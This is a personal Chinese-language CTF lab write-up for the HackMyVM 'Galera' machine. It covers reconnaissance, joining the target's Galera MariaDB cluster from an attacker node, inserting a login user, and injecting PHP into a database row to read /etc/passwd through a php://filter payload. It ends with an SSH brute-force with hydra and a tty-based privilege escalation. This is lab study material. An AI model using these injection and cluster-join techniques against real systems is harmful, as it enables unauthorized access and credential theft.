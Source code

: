 ```yaml
---
UID: 20250608210639
aliases: 
tags:
  - 靶场
  - 打靶
source: 
cssclasses: 
created: 2025-06-08
---
```


# hackvm
##  Galera
### 端口扫描
![image.png](https://s2.loli.net/2025/06/08/jqxkFzlLEiNypto.png)

### web 信息收集
主页是个登录界面
![image.png](https://s2.loli.net/2025/06/08/7vn6U4IzFEhqlVt.png)

首先先排除了爆破破解，第一感觉肯定没啥用。万能密码测试也没用。都是同个报错，没法 sql 注入

子目录扫描
![image.png](https://s2.loli.net/2025/06/08/6gpCGwR23Pra5T4.png)

有蛮多的 php
![image.png](https://s2.loli.net/2025/06/08/LZq6OaeGufVKP2X.png)

有 upload 的目录，但进去没有回显，应该是在别的地方上传

另外我们得知了 php 的版本是 PHP Version 8.2.28
![image.png](https://s2.loli.net/2025/06/08/MXL7fF5Ql9n4GxP.png)

### 无思路
看了 wp，发现要用到新的端口，galera，mysql 的一个插件
需要在 mysql 的 my. cnf 中配置 galera 的节点
```
[mysqld]
# 基础配置
binlog_format=ROW
default-storage-engine=InnoDB
innodb_autoinc_lock_mode=2
bind-address=0.0.0.0  # 允许远程访问（生产环境应限制IP）

# Galera 配置
wsrep_on=ON
wsrep_provider=/usr/lib/galera/libgalera_smm.so
wsrep_cluster_address="gcomm://192.168.56.105"被攻击者者
wsrep_node_address="192.168.56.104" 攻击者
wsrep_node_name="nodeX"
wsrep_sst_method=rsync

```

配置完之后，重启 mariadb。进入数据库，就能找到新的数据库 galeradb

![image.png](https://s2.loli.net/2025/06/08/AIpgdt4BfGjuDUC.png)

![image.png](https://s2.loli.net/2025/06/08/QBIXwlGydKV9oYF.png)

![image.png](https://s2.loli.net/2025/06/08/HAlw6v9FIo58ih4.png)

增加一个新用户
![image.png](https://s2.loli.net/2025/06/08/rK8UjpBNtY3nZJ7.png)

```
insert into users values(3,'tt','test@test.com','$2a$10$Jc71GQZA7tX00V4kQR/vkODsjGKm6eOksBRdDMoUR7w0dosd.ilzu','2025-06-08 07:55:51');
```
![image.png](https://s2.loli.net/2025/06/08/jsg8Tf4HGAzd69p.png)

登录成功
![image.png](https://s2.loli.net/2025/06/08/JfP9cjQzgAp8ibd.png)

### 依旧无思路
看了 wp，需要在 mysql 中插入 php 执行代码
```
insert into users values(2,'tt','<?php phpinfo();?>','$2a$10$Jc71GQZA7tX00V4kQR/vkODsjGKm6eOksBRdDMoUR7w0dosd.ilzu','2025-06-08 07:55:51');

insert into users values(23,'tt1','<?php echo include(''php://filter/convert.base64-encode/resource=/etc/passwd'');?>','$2a$10$Jc71GQZA7tX00V4kQR/vkODsjGKm6eOksBRdDMoUR7w0dosd.ilzu','2025-06-08 07:55:51');
```

![image.png](https://s2.loli.net/2025/06/08/EHSqPuQkUzFMarI.png)


![image.png](https://s2.loli.net/2025/06/08/qW6VTG8Ff715EBy.png)

找到/etc/passwd 的 base 64 编码
![image.png](https://s2.loli.net/2025/06/08/DgftTaS8oZAXHbw.png)

找到一个 donjuandeaustria 用户，尝试进行密码爆破 ssh

#### hydra 爆破
![image.png](https://s2.loli.net/2025/06/08/bAuEM7vqJDVcTm6.png)

找到密码

#### 提权
![image.png](https://s2.loli.net/2025/06/08/ZUpiP7JQRIWhexN.png)

看了 wp

输入 w
w命令的核心功能是显示当前登录用户信息和系统负载状态
![image.png](https://s2.loli.net/2025/06/08/I8F7DNOorbJXMlm.png)

tty是 Linux 中终端设备的统称
`tty20` 表示用户 `root` 当前登录的是系统的​**​第 20 个虚拟终端（Virtual Console）**

在/dev 中找带 20 的
![image.png](https://s2.loli.net/2025/06/08/1impb7jUnV5YTJs.png)


![image.png](https://s2.loli.net/2025/06/08/psW7TDkKPFNfaAJ.png)

![image.png](https://s2.loli.net/2025/06/08/Vp6sDP5Bt9UxbTy.png)


![image.png](https://s2.loli.net/2025/06/08/Zd9Gs8Lv1BQSAXU.png)


# vulnyx


